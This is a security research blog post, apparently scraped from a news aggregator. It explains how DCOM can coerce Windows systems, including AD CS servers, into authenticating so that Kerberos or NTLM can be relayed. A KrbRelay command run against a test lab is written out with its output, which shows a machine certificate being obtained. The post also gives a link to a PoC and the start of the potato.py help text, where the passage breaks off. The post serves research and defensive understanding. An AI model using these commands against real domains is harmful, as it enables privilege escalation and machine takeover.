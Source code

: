 ```yaml
---
title: Three-Headed Potato Dog
url: https://blog.compass-security.com/2024/09/three-headed-potato-dog/
source: Over Security - Cybersecurity news aggregator
date: 2024-09-18
fetch_date: 2025-10-06T18:27:09.055765
---
```


# Three-Headed Potato Dog

## [Compass Security Blog](https://blog.compass-security.com "Compass Security Blog — Offensive Defense")

### Offensive Defense

* [Home](https://blog.compass-security.com/)
* [Archive](https://blog.compass-security.com/archive/)
* [Contact](https://blog.compass-security.com/contact/)
* [Newsletter](https://blog.compass-security.com/mailing-list-tigerinfo/)

* [Home](https://blog.compass-security.com/)
* [Archive](https://blog.compass-security.com/archive/)
* [Contact](https://blog.compass-security.com/contact/)
* [Newsletter](https://blog.compass-security.com/mailing-list-tigerinfo/)

# [Three-Headed Potato Dog](https://blog.compass-security.com/2024/09/three-headed-potato-dog/ "Three-Headed Potato Dog")

[September 17, 2024](https://blog.compass-security.com/2024/09/three-headed-potato-dog/ "Three-Headed Potato Dog")
 /
[Sylvain Heiniger](https://blog.compass-security.com/author/sheinige/ "Posts by Sylvain Heiniger")
 /
[0 Comments](https://blog.compass-security.com/2024/09/three-headed-potato-dog/#respond)

Earlier this year, several security researchers published research about using DCOM to coerce Windows systems to authenticate to other systems. This can be misused to relay the authentication to NTLM or Kerberos, to AD CS over HTTP for instance.

This sounds like a hot and complex topic. Let’s take a look back how this started and how it works.

## Where it all started

In February, [Andrea Pierini](https://x.com/decoder_it) posted a technique resembling his previous potato exploits but triggering the authentication from a remote server instead of the local machine. He discovered DCOM interfaces on AD CS servers which allow him to receive authenticated connections that can be relayed:

> Hello: I'm your ADCS server and I want to authenticate against you. My latest Post and PoC are out. You can read it here: <https://t.co/qzcSkFIySk> Enjoy :)
>
> — ap (@decoder\_it) [February 26, 2024](https://twitter.com/decoder_it/status/1762146535876296783?ref_src=twsrc%5Etfw)

In his blogpost, he explained that it’s not only possible to coerce NTLM connections, but also Kerberos authenticated connections, because the SPN can be controlled by the attacker.

To this, [Tianze Ding](https://x.com/D1iv3) replied that relaying to Kerberos is even more powerful, because it can be relayed back to the coerced machine:

> We can relay back to the same machine using Kerberos relay instead of NTLM relay. I discovered this attack vector more than a year ago. I will describe it in detail in upcoming Black Hat Asia 2024 <https://t.co/zz9z3n6t0h>… and introduce more interesting attacks. [pic.twitter.com/LquR6UkZn5](https://t.co/LquR6UkZn5)
>
> — Dlive (@D1iv3) [February 27, 2024](https://twitter.com/D1iv3/status/1762443475260527092?ref_src=twsrc%5Etfw)

Finally, a few months later, [Andrea Pierini](https://x.com/decoder_it) let the cat out of the bag and released his SilverPotato, which demonstrated remote cross-session coercion. This allows an attacker to not only coerce the machine account for authentication, but also the account of any other logged in user on the remote system.

https://twitter.com/decoder\_it/status/1783134821784428671

When I read the first tweet in February, my curiosity was piqued and I modified the [KrbRelay](https://github.com/cube0x0/KrbRelay) project to make it remote and cross-session capable, because Andrea did not release his PoC code. [A few lines of code](https://gist.github.com/sploutchy/0f7a913c6aacc90f85339124a93dc78b) and it worked, easy enough!

### PoC||GTFO

The following modified version of KrbRelay coerces the AD CS system `ca1.child.testlab.local` via the DCOM interface to authenticate to the attacker’s IP address `10.0.1.10` using the attacker-controlled SPN `http/ca1.child.testlab.local`. Because Kerberos authentication can be relayed back to the originating machine, the received connection can be relayed to the AD CS HTTP enrollment endpoint to get a certificate for the authenticated machine account:

```
> KrbRelay.exe  -spn http/ca1.child.testlab.local -clsid D99E6E74-FC88-11D0-B498-00A0C90312F3 -endpoint certsrv/ -adcs Computer -target ca1.child.testlab.local -relayip 10.0.1.10
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\Users\tmassie\Documents\krb\KrbRelay.exe
[*] Register com server

[*] Forcing SYSTEM authentication
[*] Using CLSID: d99e6e74-fc88-11d0-b498-00a0c90312f3
[*] apReq: 6082072[CUT BY COMPASS]88218873
[*] apRep1: 6f818[CUT BY COMPASS]adb7d4
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, ReplayDetect, SequenceDetect, Confidentiality, UseDceStyle, Connection
[*] apRep2: 6f5b3[CUT BY COMPASS]3c25dbb
[+] HTTP session established
[*] Authentication Cookie;
ASPSESSIONIDACRTDCAR=GLCJEKBBBFHOPLEGHFMLCJNM; path=/
[*] Requesting a certificate
[*] Testing: Computer
[+] Found valid template: Computer
[*] SUCCESS (ReqID: 4)
[*] Downloading certificate
[*] Exporting certificate & private key
MIACAQ[CUT BY COMPASS]BAAAAA==
```

This certificate can now be used to authenticate as the machine account and finally take over the system (e.g. via RBCD or Shadow Credentials).

## Coercion using DCOM

How does it work? In [talk at Black Hat Asia 2024](https://i.blackhat.com/Asia-24/Presentations/Asia-24-Ding-CertifiedDCOM-The-Privilege-Escalation-Journey-to-Domain-Admin.pdf), [Tianze Ding](https://x.com/D1iv3) explains the DCOM coercion primitive used:

[![](https://blog.compass-security.com/wp-content/uploads/2024/07/Page-1-1024x457.png)](https://blog.compass-security.com/wp-content/uploads/2024/07/Page-1.png)

1. The attacker remotely activates a COM class using a crafted storage object
2. During unmarshalling, the COM server connects to the attacker’s server
   * first over RPC to resolve the network address of the machine where the remote COM object is (via the OXID resolver)
   * then over COM to access the storage
3. These two connections are authenticated and can be relayed. Because the OXID resolver of the attacker is used, the attacker can specify an arbitrary SPN which is used in the 2nd authentication. This 2nd authentication can then be relayed (DCOM hardening only allows relay to HTTP or unprotected LDAP)

## Potato.py

Fair enough. But I wanted to understand what happens under the hood, so I decided to try to implement the coercion mechanism in Python using [Impacket](https://github.com/fortra/impacket).

### The Process

`RemoteCreateInstance` and the associated structures are [already implemented in Impacket](https://github.com/fortra/impacket/blob/master/impacket/dcerpc/v5/dcomrt.py#L1766). So how hard can it be? Well not easy!

I started looking at the packet sent by Windows (using KrbRelay.exe) and filling the structure accordingly. This was not enough. Comparing packets was difficult because of the poor support of Wireshark for `ISystemActivator`, so I ended up [extending the Wireshark dissector for DCOM](https://gitlab.com/wireshark/wireshark/-/merge_requests/16170) in the doing.

After long hours of debugging and fixing some DCOM structures, I finally got a working PoC, you can find it here: <https://github.com/sploutchy/impacket/blob/potato/examples/potato.py>

### How-To

The tool takes a target, a relay target, a CLSID and optionally a session ID and/or an SPN:

```
$ potato.py -h
Impacket v0.12.0.dev1+20240627.132501.185402b6 - Copyright 2023 Fortra

usage: potato.py [-h] [-debug] -clsid CLSID [-relay-ip IP] [-relay-hostname HOSTNAME] [-relay-port HOSTNAME] [session-id SESSION_ID] [-kerberos]
                 [-spn PROTOCOL\SERVER] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address]
                 target

Potato implementation.

positional arguments:
  target                    [[domain/]username[:password]@]<targetName or address>

options:
  -h, --help                show this help message and exit
  -debug                    Turn DEBUG...